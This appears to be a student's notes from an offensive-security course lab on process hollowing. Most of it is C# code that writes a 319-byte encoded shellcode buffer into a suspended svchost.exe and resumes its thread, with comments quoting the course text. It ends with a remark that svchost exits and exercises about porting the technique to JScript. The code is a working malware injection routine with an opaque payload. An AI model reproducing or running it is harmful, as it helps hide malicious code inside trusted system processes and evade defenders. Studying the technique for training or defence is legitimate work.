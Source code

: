 ```C#
             */

            byte[] buf = new byte[319] {
            0x48,0x31,0xc9,0x48,0x81,0xe9,0xdd,0xff,0xff,0xff,0x48,0x8d,0x05,0xef,0xff,
            0xff,0xff,0x48,0xbb,0xb6,0x91,0x18,0x2b,0x1c,0x05,0x92,0x1b,0x48,0x31,0x58,
            0x27,0x48,0x2d,0xf8,0xff,0xff,0xff,0xe2,0xf4,0x4a,0xd9,0x9b,0xcf,0xec,0xed,
            0x52,0x1b,0xb6,0x91,0x59,0x7a,0x5d,0x55,0xc0,0x4a,0xe0,0xd9,0x29,0xf9,0x79,
            0x4d,0x19,0x49,0xd6,0xd9,0x93,0x79,0x04,0x4d,0x19,0x49,0x96,0xd9,0x93,0x59,
            0x4c,0x4d,0x9d,0xac,0xfc,0xdb,0x55,0x1a,0xd5,0x4d,0xa3,0xdb,0x1a,0xad,0x79,
            0x57,0x1e,0x29,0xb2,0x5a,0x77,0x58,0x15,0x6a,0x1d,0xc4,0x70,0xf6,0xe4,0xd0,
            0x49,0x63,0x97,0x57,0xb2,0x90,0xf4,0xad,0x50,0x2a,0xcc,0x8e,0x12,0x93,0xb6,
            0x91,0x18,0x63,0x99,0xc5,0xe6,0x7c,0xfe,0x90,0xc8,0x7b,0x97,0x4d,0x8a,0x5f,
            0x3d,0xd1,0x38,0x62,0x1d,0xd5,0x71,0x4d,0xfe,0x6e,0xd1,0x6a,0x97,0x31,0x1a,
            0x53,0xb7,0x47,0x55,0x1a,0xd5,0x4d,0xa3,0xdb,0x1a,0xd0,0xd9,0xe2,0x11,0x44,
            0x93,0xda,0x8e,0x71,0x6d,0xda,0x50,0x06,0xde,0x3f,0xbe,0xd4,0x21,0xfa,0x69,
            0xdd,0xca,0x5f,0x3d,0xd1,0x3c,0x62,0x1d,0xd5,0xf4,0x5a,0x3d,0x9d,0x50,0x6f,
            0x97,0x45,0x8e,0x52,0xb7,0x41,0x59,0xa0,0x18,0x8d,0xda,0x1a,0x66,0xd0,0x40,
            0x6a,0x44,0x5b,0xcb,0x41,0xf7,0xc9,0x59,0x72,0x5d,0x5f,0xda,0x98,0x5a,0xb1,
            0x59,0x79,0xe3,0xe5,0xca,0x5a,0xef,0xcb,0x50,0xa0,0x0e,0xec,0xc5,0xe4,0x49,
            0x6e,0x45,0x63,0xa6,0x04,0x92,0x1b,0xb6,0x91,0x18,0x2b,0x1c,0x4d,0x1f,0x96,
            0xb7,0x90,0x18,0x2b,0x5d,0xbf,0xa3,0x90,0xd9,0x16,0xe7,0xfe,0xa7,0xf5,0x27,
            0xb9,0xe0,0xd0,0xa2,0x8d,0x89,0xb8,0x0f,0xe4,0x63,0xd9,0x9b,0xef,0x34,0x39,
            0x94,0x67,0xbc,0x11,0xe3,0xcb,0x69,0x00,0x29,0x5c,0xa5,0xe3,0x77,0x41,0x1c,
            0x5c,0xd3,0x92,0x6c,0x6e,0xcd,0x48,0x7d,0x69,0xf1,0x35,0xd3,0xe9,0x7d,0x2b,
            0x1c,0x05,0x92,0x1b };
            WriteProcessMemory(hProcess, addressOfEntryPoint, buf, buf.Length, out nRead);

            /*
             * Now that everything is set up correctly, we’ll start the execution of our shellcode. In the previous 
techniques, we have called CreateRemoteThread to spin up a new thread but in this case, a thread 
already exists and is waiting to execute our shellcode.
We can use the Win32 ResumeThread280 API to let the suspended thread of a remote process 
continue its execution. ResumeThread is an easy API to call since it only requires the handle of the 
thread to resume as shown in its function prototype281 in Listing 203

            when CreateProcessW started svchost.exe and populated the PROCESS_INFORMATION 
structure, it also copied the handle of the main thread into it. We can then import ResumeThread
and call it directly
             */

            ResumeThread(pi.hThread);
        }
    }
}

```

It is calling svchost but then exits

### 5.4.2.1 Exercises
1. Replicate the process hollowing technique using shellcode from C#.

`svchost.exe` not working.

2. Modify the code to generate a Jscript file using DotNetToJscript that performs process hollowing.
